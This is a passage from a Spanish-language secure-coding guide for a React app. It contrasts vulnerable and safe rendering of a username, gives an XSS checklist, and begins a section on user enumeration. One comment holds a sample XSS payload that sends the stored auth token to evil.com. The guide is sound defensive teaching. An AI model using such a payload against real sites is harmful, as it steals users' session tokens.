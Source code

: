 ### Ejemplo práctico en nuestra app

**Escenario:** Campo de nombre de usuario

```tsx
// ❌ VULNERABLE (si usáramos esto)
const UserProfile = () => {
    const user = useAuthStore(state => state.user)

    return (
        <div dangerouslySetInnerHTML={{ __html: user.name }} />
    )
}

// Atacante podría registrarse con nombre:
// <img src=x onerror="fetch('https://evil.com?token=' + localStorage.getItem('auth-storage'))">
```

```tsx
// ✅ SEGURO (nuestro código actual)
const UserProfile = () => {
    const user = useAuthStore(state => state.user)

    return <div>{user.name}</div> // React escapa automáticamente
}
```

### Lista de verificación de seguridad XSS

- [ ] ✅ Nunca usar `dangerouslySetInnerHTML` con input de usuario
- [ ] ✅ Validar todos los inputs con Zod
- [ ] ✅ Implementar Content Security Policy
- [ ] ✅ Considerar httpOnly cookies para tokens
- [ ] ✅ Sanitizar HTML si es absolutamente necesario (DOMPurify)
- [ ] ✅ No construir HTML con concatenación de strings
- [ ] ✅ Revisar dependencias con `npm audit`

---

## 5. ¿Por qué usar mensajes de error genéricos?

### Respuesta Corta
Para **no revelar información** que ayude a un atacante a hackear cuentas.

### Respuesta Completa

#### El Problema: Enumeración de Usuarios

**Escenario con mensajes específicos:**

```typescript
// ❌ PELIGROSO: Mensajes diferentes según el error
if (email no existe) {
    return "Este email no está registrado"
}
if (password incorrecta) {
    return "Contraseña incorrecta"
}
```
